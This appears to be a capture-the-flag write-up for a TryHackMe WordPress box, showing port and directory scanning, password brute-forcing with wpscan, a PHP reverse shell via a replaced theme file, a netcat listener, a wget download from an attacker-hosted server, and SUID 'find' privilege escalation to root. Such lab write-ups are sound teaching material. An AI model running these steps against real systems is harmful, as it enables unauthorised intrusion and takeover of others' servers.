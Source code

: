 ```yaml
---
title: Try Hack Me - c0lddBox
date: 2021-02-06 16:32 +0300
categories: [Try Hack Me]
tags: [linux,wordpress]     # TAG names should always be lowercase
---
```


# Welcome

Hey there! Glad to see you.

In this box you will learn about:
- Wordpress Reverse Shell

# Nmap

Start scanning!

<pre class="highlighter-rouge highlight">
Nmap scan report for 10.10.132.4
Host is up (0.068s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=2/6%OT=80%CT=1%CU=36996%PV=Y%DS=2%DC=I%G=Y%TM=601EB318
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=104%TI=Z%CI=I%TS=8)OPS(O1=M5
OS:08ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O
OS:6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%D
OS:F=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0
OS:%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%
OS:RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%I
OS:PL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
</pre>

From nmap we can see a Wordpress webpage. Let's check it.

# Gobuster

<pre>
gobuster dir -w /opt/directory-list-2.3-medium.txt -u http://10.10.132.4
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.132.4/
[+] Threads:        10
[+] Wordlist:       /opt/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
			Starting gobuster
===============================================================
/wp-content (Status: 301)
/wp-includes (Status: 301)
/wp-admin (Status: 301)
/hidden (Status: 301)
</pre>

I found hidden page <code class="language-plaintext highlighter-rouge">/hidden</code> and login page <code class="language-plaintext highlighter-rouge">/wp-admin</code>

# Web Page

If we open the hidden page <code class="language-plaintext highlighter-rouge">/hidden</code>, we will see

<img src="/assets/img/c0ldd_img/hidden.jpg">

So we found three username for bruteforcing - *c0ldd*, *hugo*, *philip*.


# Wpscan

Let's try to brute password(s).

<pre>
wpscan -U c0ldd,hugo,philip -P /opt/rockyou.txt --url http://10.10.132.4

[+] Performing password attack on Wp Login against 3 user/s
[SUCCESS] - c0ldd / *****
</pre>

# Wordpress page

Here we will try to upload shell. You can find php shell on <a href="https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php">Pentestmokey - php reverse shell</a>

Upload it instead of *404.php*.

Turn on listener

<pre>nc -lvnp 1234</pre>

On the browser run the following URL

<pre>http://10.10.132.4/wordpress/wp-content/themes/twentyfifteen/404.php</pre>

And you will get the shell.

If you got stuck, come to this wonderful guide for more details -- <a href="https://www.hackingarticles.in/wordpress-reverse-shell/">WordPress: Reverse Shell</a>

# Improve our shell

Netcat has some problems. Sometims you will type wrong commands and to cancel you need to type <code class="language-plaintext highlighter-rouge">Ctrl + C</code>. And you will lose the connection. So to avoid that situation

<pre>
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
ssty raw -echo; fg
Type Enter
</pre>
And the shell won't disconnect.

# Privilage Escalation
Let's upload <code class="language-plaintext highlighter-rouge">LinEnum.sh</code> to find vulnerability.

We must run this script on victim machine. And our actions are:

Create a python server in the folder where we have our <code class="language-plaintext highlighter-rouge">LinEnum</code> script stored

<pre>*ATTACKER MACHINE* sudo python3 -m http.server</pre>

Download the script on the victim machine

<pre>*VICTIM MACHINE* wget attacker_ip:8000/linenum.sh</pre>

Get the access permissions

<pre>
chmod +x linenum.sh
./linenum.sh</pre>

You know...The output was huge! It was so lot of details... I'll show you a part

<img src="/assets/img/c0ldd_img/linEnum.jpg">

Go to <a href="https://gtfobins.github.io/gtfobins/find/#suid">find|GTFOBins</a> to escalate.

And typed/copied following commands

<pre>
/usr/bin/find . -exec /bin/sh -p \; -quit
</pre>

Now you are root!

<pre>
cat /home/user.txt
</pre>

<img src="/assets/img/c0ldd_img/userflag.jpg">

<pre>
cat /root/root.txt
</pre>

<img src="/assets/img/c0ldd_img/rootflag.jpg">

# Userful for me references
<div><a href="https://www.hackingarticles.in/wordpress-reverse-shell/">WordPress: Reverse Shell</a></div>
<div><a href="https://gtfobins.github.io/gtfobins/find/#suid">find|GTFOBins</a></div>
